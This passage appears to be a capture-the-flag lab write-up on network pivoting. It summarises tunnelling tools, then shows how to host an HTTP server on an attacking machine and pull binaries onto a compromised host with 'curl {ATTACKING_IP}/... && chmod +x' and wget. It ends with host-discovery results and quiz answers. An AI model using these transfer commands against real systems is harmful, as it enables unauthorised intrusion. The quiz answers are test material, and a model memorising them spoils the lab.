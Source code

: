 ### Conclusion:

As a summary of the tools in this section:
- Proxychains and FoxyProxy are used to access a proxy created with one of the other tools
- SSH can be used to create both port forwards, and proxies
- plink.exe is an SSH client for Windows, allowing you to create reverse SSH connections on Windows
- Socat is a good option for redirecting connections, and can be used to create port forwards in a variety of different ways
- Chisel can do the exact same thing as with SSH portforwarding/tunneling, but doesn't require SSH access on the box
- sshuttle is a nicer way to create a proxy when we have SSH access on a target

---

### Git Server Enumeration Phase

To send binaries like nmap to the target/compromise system there are diffrent method to send it like SCP(secure copy),python server,apache server,php server etc but we use python server now 

- go to the directory where you static binary presence open teminal here and user command 

command: `sudo python3 -m http.server 80`

**Note dont close the terminal.close it when you download the binary to the compromise system**

Above command open a port 80 on your system and create a server to the directory where you binaries are presence so just use the following commnand to your compromise system to download the file 

command: `curl {ATTACKING_IP}/{file name} -o /tmp/nmap-USERNAME && chmod +x /tmp/{file name}`

```
{ATTACKING_IP}: attacking ip is your attacking machine ip 

{file name}: file name is your binary name ## case sensitive

-o : this flag is use to save the binary to the path 

&& chmod +x : this is use to make your binary executable 
```

you can use wget command to download the file also 

command: `wget http://attacking_ip/binary_name`

this command save the binary your corrent directry

---

nmap scan report shows to ip excluding other that are not use 

IP Addr 1 = (10.200.104.100) MAC Address: 02:BC:EC:04:FA:2B 
IP Addr 2 = (10.200.104.150) MAC Address: 02:9C:29:A9:96:67

```
Q1: Excluding the out of scope hosts, and the current host (.200), how many hosts were discovered active on the network?
A: 2
```
```
Q2: In ascending order, what are the last octets of these host IPv4 addresses? (e.g. if the address was 172.16.0.80, submit the 80)
A: 100,150
```
```
Nmap scan report of machine 1


all 1500 port are filtered

Nmap scan report of machine 2

```